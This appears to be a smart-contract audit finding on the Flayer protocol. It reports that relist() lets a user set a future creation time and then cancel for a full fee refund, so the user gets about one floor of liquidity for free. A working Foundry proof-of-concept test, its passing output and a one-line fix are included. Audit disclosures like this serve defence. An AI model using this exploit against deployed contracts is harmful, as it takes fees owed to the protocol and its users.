 Skinny Coconut Parrot

High

# Users can obtain about a floor liquidity for any liquid duration without paying any fees.

### Summary

When relisting, user can set any creation time (`listing.created`) for the listing. So the user can set it to a time in the future and all attempts to fill/relist/reserve the listing before that time will be reverted. When the creation time comes, the user can cancel the listing without paying any fees as the duration of the listing has just begun and all prepaid fees will be refunded. Therefore, users can gain access to about 1 floor liquidity without paying any fees by using two addresses, one for creating listing and one for relisting.



### Root Cause

In `Listings.sol#relist`, it just stores the user inputed `listing` into the listing mappings  (`Listings.sol:670`). So the user can specify the `listing.created` to a time in the future.
```solidity
// Function: Listings.sol#relist

        // Store our listing into our Listing mappings
665:    _listings[_collection][_tokenId] = listing;
```
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L665

### Internal pre-conditions

_No response_

### External pre-conditions

The user needs two addresses to work together to complete the attack.

### Attack Path

1. Alice has two wallet addresses: `_lister` and `_relister`.
2. Alice first uses `_lister` to create a listing for his NFT, and `_relister` gets about 1 floor liquidity of collection token (`1 floor -  
fees` exactly)).
3. Alice then uses `_relister` to relist the listing, and `_relister` pays the remaing value above the floor to `_lister`.  Alice sets the new `listing.created` to a time in the future and a relative high price, so that no other users want to fill/relist/reserve the listing when it comes to the time of `listing.created`.
4. No one can fill/relist/reserve the listing, as the listing is not available before the `listing.created` according to `getListingPrice`.
```solidity
// Function: Listings.sol#getListingPrice
        // This is an edge case, but protects against potential future logic. If the
        // listing starts in the future, then we can't sell the listing.
        if (listing.created > block.timestamp) {
859:        return (isAvailable_, totalPrice);
        }
```
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L855-L859

5. When it comes to the time of `listing.created`, `_relister` cancels the listing and get all the prepaid fees back, as the duration has just begun and no fees will be charged for the relisted listing.
6. Finally, Alice's collection token balance (`_lister` + `_relister`) remains the same as at the beginning, which is to say that Alice can obtain about a floor liquidity of the collection token for any valid liquid duration without paying any fees.


### Impact

This issue resulted in users being able to obtain some collection tokens without paying any fees during any valid liquid listing 
 period, which undermined the core functionality of the protocol.


### PoC

```solidity

    function test_Relist() public {
        address _lister = address(0x11111);
        address _relister = address(0x22222);
        erc721a.mint(_lister, 1);

        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), _lister, 2 ether);
        deal(address(token), _relister, 2 ether);
        
        // save original balance
        uint256 balanceOfLister = token.balanceOf(_lister);
        uint256 balanceOfRelister = token.balanceOf(_relister);
        uint256 escrowBalanceOfLister = listings.balances(_lister, address(token));
        uint256 escrowBalanceOfRelister = listings.balances(_relister, address(token));
        uint256 totalBalance0 = balanceOfLister + balanceOfRelister + escrowBalanceOfLister + escrowBalanceOfRelister;
        console.log("[before]");
        console.log("    lister: balance=%d, escrowBalance=%d", balanceOfLister, escrowBalanceOfLister);
        console.log("  relister: balance=%d, escrowBalance=%d", balanceOfRelister, escrowBalanceOfRelister);
        console.log("     total: balance=%d", totalBalance0);

        uint[] memory _tokenIds = new uint[](1);

        vm.startPrank(_lister);
        erc721a.setApprovalForAll(address(listings), true);
        _tokenIds[0] = 1;
        IListings.CreateListing[] memory _listings = new IListings.CreateListing[](1);
        _listings[0] = IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIds,
            listing: IListings.Listing({
                owner: payable(_lister),
                created: uint40(block.timestamp),
                duration: 100 days,
                floorMultiple: 120
            })
        });
        listings.createListings(_listings);
        vm.stopPrank();

        vm.startPrank(_relister);
        token.approve(address(listings), 1 ether);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIds,
                listing: IListings.Listing({
                    owner: payable(_relister),
                    created: uint40(block.timestamp + 150 days),  // some time in the future
                    duration: 100 days,
                    floorMultiple: 120
                })
            }),
            _payTaxWithEscrow: false
        });
        vm.stopPrank();

        // Someone tries to fill the listing before the listing started, but fails.
        vm.warp(block.timestamp + 149 days);
        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = 1;

        vm.expectRevert(IListings.ListingNotAvailable.selector);
        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            })
        );

        // Relister can cancel the listing anytime if he wants his token back and return the 1 floor liquidity.
        vm.warp(block.timestamp + 1 days);
        vm.startPrank(_relister);
        token.approve(address(listings), type(uint).max);
        listings.cancelListings(address(erc721a), _tokenIds, false);
        vm.stopPrank();

        // get new balance
        balanceOfLister = token.balanceOf(_lister);
        balanceOfRelister = token.balanceOf(_relister);
        escrowBalanceOfLister = listings.balances(_lister, address(token));
        escrowBalanceOfRelister = listings.balances(_relister, address(token));
        uint256 totalBalance1 = balanceOfLister + balanceOfRelister + escrowBalanceOfLister + escrowBalanceOfRelister;
        console.log("[after]");
        console.log("    lister: balance=%d, escrowBalance=%d", balanceOfLister, escrowBalanceOfLister);
        console.log("  relister: balance=%d, escrowBalance=%d", balanceOfRelister, escrowBalanceOfRelister);
        console.log("     total: balance=%d", totalBalance1);

        assertEq(erc721a.ownerOf(1), _relister);
        assertEq(totalBalance0, totalBalance1);
    }
```
Add the above test case to `Listings.t.sol`, and test it with `forge test -vv --match-test=test_Relist`, the reuslt is shown as:
```solidity
Ran 1 test for test/Listings.t.sol:ListingsTest
[PASS] test_Relist() (gas: 990288)
Logs:
  [before]
      lister: balance=2000000000000000000, escrowBalance=0
    relister: balance=2000000000000000000, escrowBalance=0
       total: balance=4000000000000000000
  [after]
      lister: balance=2994285714285714286, escrowBalance=205714285714285714
    relister: balance=800000000000000000, escrowBalance=0
       total: balance=4000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.23ms (1.77ms CPU time)

Ran 1 test suite in 12.63ms (8.23ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

In `relist`, change the `listing.created` to `block.timestamp`.
```solidity
        // Store our listing into our Listing mappings
+       listing.created = uint40(block.timestamp);
        _listings[_collection][_tokenId] = listing; 
```
